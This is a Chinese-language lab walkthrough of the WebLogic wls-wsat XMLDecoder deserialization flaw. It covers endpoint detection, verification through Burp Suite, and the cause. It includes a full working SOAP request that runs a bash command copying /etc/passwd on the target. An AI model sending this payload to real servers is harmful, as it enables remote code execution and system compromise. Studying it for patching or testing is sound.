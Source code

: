#weblogic漏洞利用过程 
##一、漏洞检测 
访问`http://192.168.247.143/wls-wsat/coordinatorPortType` 
![Alt text](/img/weblogic-1.png) 
访问`http://192.168.247.143/wls-wsat/coordinatorPortType11` 
![Alt text](/img/weblogic-2.png) 
##二、漏洞验证 
访问`http://192.168.247.143/wls-wsat/coordinatorPortType`并用Burpsuite抓包 
![Alt text](/img/weblogic-3.png) 

发送到repeter，填写payload，在这里我们执行命令为cp /etc/passwd /tmp/weblogic-passwd，即可/etc/passwd 复制到 /tmp/weblogic-passwd

`POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.247.143:7001
Accept-Encoding: identity
Content-Length: 691
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: text/xml
X-Forwarded-For: 72.11.140.178
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
				</void>
			  <void index="2">
				<string>cp /etc/passwd /tmp/weblogic_passwd</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>`
![Alt text](/img/weblogic-4.png)
点击go，查看主机的/tmp 目录，发现已经生成weblogic-passwd 
![Alt text](/img/weblogic-5.png)

 ##三、漏洞形成原因 
 此次被利用的漏洞源自WebLogic自带的一个wls-wsat.war应用包（Web Services Atomic Transactions组件），该组件存在RCE（远程代码执行）漏洞，允许使用JDK自身的XMLDecoder进行反序列化漏洞攻击，下载并运行比特币的挖矿程序。但Java XMLDecoder反序列化漏洞也并不是这两年才出来，早在2013年就已经爆出来了，2015年爆出来的CVE-2015-4852也并不是唯一的反序列化漏洞。 Github上有一个项目Java-Deserialization-Cheat-Sheet（https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet），总结了几乎所有的Java反序列化漏洞。